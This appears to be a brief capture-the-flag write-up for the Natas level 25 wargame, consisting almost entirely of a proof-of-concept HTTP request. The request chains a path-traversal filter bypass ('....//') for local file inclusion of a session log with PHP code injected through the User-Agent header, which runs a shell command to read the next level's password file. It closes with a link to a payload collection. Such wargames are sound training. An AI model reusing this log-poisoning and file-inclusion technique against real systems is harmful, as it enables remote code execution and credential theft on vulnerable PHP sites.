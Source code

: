 # LFI PoC

```
GET /?lang=....//logs/natas25_kiuh65auel8ahc3u7md3rujio4.log HTTP/1.1
Host: natas25
User-Agent: <?php system("cat /etc/natas_webpass/natas26"); ?>
Cookie: PHPSESSID=kiuh65auel8ahc3u7md3rujio4
```

## Resources
* https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/File%20Inclusion%20-%20Path%20Traversal
